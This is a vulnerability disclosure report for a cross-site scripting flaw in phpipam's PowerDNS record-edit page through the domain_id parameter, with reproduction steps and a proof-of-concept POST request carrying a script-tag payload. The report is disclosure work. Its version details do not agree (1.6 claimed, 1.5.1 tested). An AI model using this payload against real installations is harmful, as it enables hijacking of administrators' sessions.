

# Vulnerability Type

Cross-site Scripting

# Description

phpipam 1.6 is vulnerable to Cross Site Scripting (XSS) via /app/admin/powerDNS/record-edit.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/phpipam/phpipam/
 - Version: 1.5.1
 - Tested on: Windows 10

 ## Exploit Description

The XSS vulnerability in the `/app/admin/powerDNS/record-edit.php` arises from improper sanitization of user-supplied input in the `domain_id` parameter. The vulnerability is triggered when the `action` POST parameter is set to `add`.

 ## Steps to Reproduce

 1. Login as an admin user.
 1. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie.
 1. Observe the result: 



 ## Proof Of Concept
```
# PoC to trigger XSS vulnerability in phpipam 1.6
# Ensure you are logged in as an admin user to satisfy the admin check condition.
# Send the following POST request to trigger the XSS vulnerability:

POST /app/admin/powerDNS/record-edit.php HTTP/1.1
Host: phpipam
Content-Type: application/x-www-form-urlencoded
Content-Length: <calculated_length>

action=add&domain_id=%22%3E%3Cscript%3Ealert(1)%3C/script%3E

# This will execute the alert(1) script when the response is rendered in the browser.
```

